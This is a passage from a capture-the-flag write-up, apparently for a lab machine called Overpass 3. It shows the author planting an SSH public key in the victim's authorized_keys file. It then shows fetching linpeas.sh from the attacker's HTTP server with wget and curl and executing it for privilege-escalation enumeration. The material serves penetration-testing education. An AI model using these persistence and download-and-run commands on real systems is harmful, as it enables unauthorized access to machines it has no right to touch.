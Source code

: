 I copied my public key to the `authorized_keys` file on the victim machine. Replace `<public-key>` with yours.

{% highlight shell %}
$ echo "<public-key>" >> authorized_keys
{% endhighlight %}

I've now logged in as `paradox` using SSH.

![Logging in as paradox using SSH](/assets/posts/2022-04-30-overpass3/Screenshot 2022-05-12 at 06.29.01.png)

### Flag Finding

Using the same `find` commands previously used to search for flag files didn't return anything.

### Lateral Move to `james`

It seems there is another user `james` on the machine.

![Users within /home](/assets/posts/2022-04-30-overpass3/Screenshot 2022-05-10 at 06.35.53.png)

But we don't have access rights to the `james` directory.

I started the process for executing `linpeas.sh` on the victim machine. I initially used `wget`, but it wasn't installed so I used `curl` instead.

{% highlight shell %}
# Attacking machine: run python's http server module
$ python -m http.server
# Victim machine: move into /tmp directory as it has necessary write permissions
$ cd /tmp
# Victim machine: retrieve the linpeas.sh file hosted on the attacking machine
$ wget http://<ip>:8000/linpeas.sh
# Second attempt using curl
$ curl -O http://<ip>:8000/linpeas.sh
# Victim machine: give execute permissions to the files
$ chmod +x linpeas.sh
# Victim machine: execute linpeas.sh
$ ./linpeas.sh
{% endhighlight %}

An alternative would have been to utilise the `FTP` server and upload `linpeas.sh` that way.
